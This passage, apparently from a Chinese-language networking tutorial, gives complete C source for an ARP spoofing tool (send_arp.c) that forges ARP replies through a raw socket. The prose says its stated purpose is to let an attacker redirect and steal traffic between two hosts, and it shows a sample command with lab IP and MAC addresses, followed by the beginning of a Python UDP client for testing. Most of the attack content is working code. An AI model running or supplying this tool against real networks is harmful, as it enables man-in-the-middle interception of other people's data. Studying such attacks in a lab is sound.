 ```
 //Filename: send_arp.c #include <stdio.h> #include <ctype.h> #include <stdlib.h> #include <string.h> #include <errno.h> #include <netdb.h> #include <net/if.h>// struct ifreq #include <sys/ioctl.h> // ioctl、SIOCGIFADDR #include <sys/socket.h> #include <arpa/inet.h> #include <linux/if_ether.h> #include <netpacket/packet.h> // struct sockaddr_l ​ ​ #define ETH_HW_ADDR_LEN 6 #define IP_ADDR_LEN 4 #define ARP_FRAME_TYPE 0x0806 #define ETHER_HW_TYPE 1 #define IP_PROTO_TYPE 0x0800 #define OP_ARP_REQUEST 2 ​ #define DEFAULT_DEVICE "eth0" ​ struct arp_packet {         u_char targ_hw_addr[ETH_HW_ADDR_LEN];         u_char src_hw_addr[ETH_HW_ADDR_LEN];         u_short frame_type;         u_short hw_type;         u_short prot_type;         u_char hw_addr_size;         u_char prot_addr_size;         u_short op;         u_char sndr_hw_addr[ETH_HW_ADDR_LEN];         u_char sndr_ip_addr[IP_ADDR_LEN];         u_char rcpt_hw_addr[ETH_HW_ADDR_LEN];         u_char rcpt_ip_addr[IP_ADDR_LEN];         u_char padding[18]; }; ​ void die(char*); void get_ip_addr(struct in_addr*, char*); void get_hw_addr(char*, char*); ​ int main(int argc, char** argv) {     struct in_addr src_in_addr,targ_in_addr;     struct arp_packet pkt;     struct sockaddr_ll sa;     struct ifreq req;     int sock = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));     if (sock < 0) {         printf("Initial raw socket failed");         return -1;     }else         printf("%d\n", sock); ​     pkt.frame_type = htons(ARP_FRAME_TYPE);     pkt.hw_type = htons(ETHER_HW_TYPE);     pkt.prot_type = htons(IP_PROTO_TYPE);     pkt.hw_addr_size = ETH_HW_ADDR_LEN;     pkt.prot_addr_size = IP_ADDR_LEN;     pkt.op=htons(OP_ARP_REQUEST); ​     get_hw_addr(pkt.targ_hw_addr,argv[4]);     get_hw_addr(pkt.rcpt_hw_addr,argv[4]);     get_hw_addr(pkt.src_hw_addr,argv[2]);     get_hw_addr(pkt.sndr_hw_addr,argv[2]); ​     get_ip_addr(&src_in_addr,argv[1]);     get_ip_addr(&targ_in_addr,argv[3]); ​     memcpy(pkt.sndr_ip_addr,&src_in_addr,IP_ADDR_LEN);     memcpy(pkt.rcpt_ip_addr,&targ_in_addr,IP_ADDR_LEN); ​     bzero(pkt.padding,18); ​     strncpy(req.ifr_name, DEFAULT_DEVICE, IFNAMSIZ); //指定网卡名称     if(-1 == ioctl(sock, SIOCGIFINDEX, &req))  //获取网络接口     {         perror("ioctl");             close(sock);          exit(-1);     } ​     /*将网络接口赋值给原始套接字地址结构*/     bzero(&sa, sizeof(sa));     sa.sll_ifindex = req.ifr_ifindex; ​     int res = sendto(sock, &pkt, sizeof(pkt), 0, (struct sockaddr *)&sa, sizeof(sa));     printf("res: %d\n", res);     if(res < 0){         perror("sendto");         exit(1);     }     exit(0); } ​ void die(char* str){     fprintf(stderr,"%s\n",str);     exit(1); } ​ void get_ip_addr(struct in_addr* in_addr,char* str){ ​     struct hostent *hostp; ​     in_addr->s_addr=inet_addr(str);     if(in_addr->s_addr == -1){         if( (hostp = gethostbyname(str)))             bcopy(hostp->h_addr,in_addr,hostp->h_length);         else {             fprintf(stderr,"send_arp: unknown host %s\n",str);             exit(1);         }     } } ​ void get_hw_addr(char* buf,char* str){     int i;     char c,val; ​     for(i=0;i<ETH_HW_ADDR_LEN;i++){         if( !(c = tolower(*str++))) die("Invalid hardware address");         if(isdigit(c)) val = c-'0';         else if(c >= 'a' && c <= 'f') val = c-'a'+10;         else die("Invalid hardware address"); ​         *buf = val << 4;         if( !(c = tolower(*str++))) die("Invalid hardware address");         if(isdigit(c)) val = c-'0';         else if(c >= 'a' && c <= 'f') val = c-'a'+10;         else die("Invalid hardware address"); ​         *buf++ |= val; ​         if(*str == ':')str++;     } }
```

假设 A 是数据发送方，B 是数据接收方，C 是攻击者，C 想窃取 A 发送给 B 的数据，那么 C 运行这个程序需要 4 个参数，分别是：B 的 IP 地址，C 的 MAC 地址，A 的 IP 地址，A 的 MAC 地址。在上面那个例子中，就是：

```
 ./send_arp.out 192.168.133.140 00:0C:29:80:44:D4 192.168.133.1 00:50:56:C0:00:08
```

这个程序运行完之后，A 给 B 发送的数据就会发送到 C 这里。

### 测试

首先写一个 UDP 的客户端，运行在 A 上，负责发送数据：

```
 #我的 Windows 系统上安装的是 Python3，所以这个 UDP 的客户端是用 Python3 写的 ​ import socket ​ address = ('192.168.133.140', 31500) s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) msg = input() s.sendto(msg.encode('utf-8'), address) s.close()
```
